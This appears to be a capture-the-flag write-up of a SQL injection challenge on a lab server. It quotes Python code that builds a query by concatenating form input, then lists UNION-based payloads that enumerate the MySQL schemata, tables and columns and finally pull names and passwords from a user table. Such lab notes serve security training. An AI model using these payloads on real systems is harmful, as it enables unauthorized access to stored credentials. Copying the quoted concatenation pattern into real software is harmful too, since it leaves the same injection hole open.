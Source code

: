 # SQLI1

## General information 
url: http://vuln2.redrocket.club:12347/

given: 
cursor.execute("SELECT id, title, content FROM articles WHERE public=1 AND id=" + request.form["article_id"])

query: 
SELECT id, title, content FROM articles WHERE public=1 AND id=" + request.form["article_id"]

## Try 1: or 1
' OR 1 # didn't work 

## Try 2: Union method 

### try union method: 

show article id 1
-1 UNION SELECT id, title, content FROM articles LIMIT 0,1
bzw. 
0 UNION SELECT id, title, content FROM articles LIMIT 0,1

shows article id 2
-1 UNION SELECT id, title, content FROM articles LIMIT 1,2
bzw. 
0 UNION SELECT id, title, content FROM articles LIMIT 1,2

### Systematically get information about database: 

#### query schematas: 
0 union select schema_name, 2, 3 from information_schema.schemata LIMIT 0,1

schemata: 
mysql
information_schema
performance_schema
sys
news

#### query tables from the news schema: 
0 union select table_name, 2, 3 from information_schema.tables where table_schema='news' limit 0,1

tables in schema news: 
articles
userdatathatisvaluable

#### columns in table userdatathatisvaluable: 
0 union select column_name, 2, 3 from information_schema.columns where table_name="userdatathatisvaluable" limit 0,1

columns in userdatathatisvaluable: 
id 
name 
password 

#### hack userdatathatisvaluable: 
0 union select id, name, password from userdatathatisvaluable limit 0,1






